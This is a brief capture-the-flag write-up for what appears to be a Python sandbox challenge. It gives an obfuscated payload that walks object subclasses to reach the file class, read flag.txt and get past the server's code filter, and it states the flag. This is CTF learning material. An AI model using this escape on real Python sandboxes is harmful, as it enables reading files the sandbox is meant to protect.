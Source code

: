 The server filters almost all python code, but it is simply a matter of obfuscation to get it to print the flag.
One method is `file("./flag.txt").read()`, which translates to `().__class__.__bases__[0].__subclasses__()[40]('./flag.txt').read()`.
flag: `not_your_average_python`
